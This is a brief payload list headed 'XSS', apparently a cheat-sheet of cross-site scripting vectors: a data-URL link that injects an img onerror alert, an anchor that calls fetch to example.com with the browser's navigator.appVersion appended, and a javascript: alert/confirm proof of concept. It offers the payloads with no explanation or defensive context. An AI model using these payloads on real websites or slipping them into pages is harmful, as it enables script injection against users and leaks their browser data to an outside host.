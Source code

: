 # XSS


#data:text/html,<a href="javascript:'<img src=e onerror=alert()>';">click</a>

#<a href='fetch("//example.com?"+navigator.appVersion)'>test</a>

#<a href="javascript:{alert(00)confirm(00)}">POC</a>
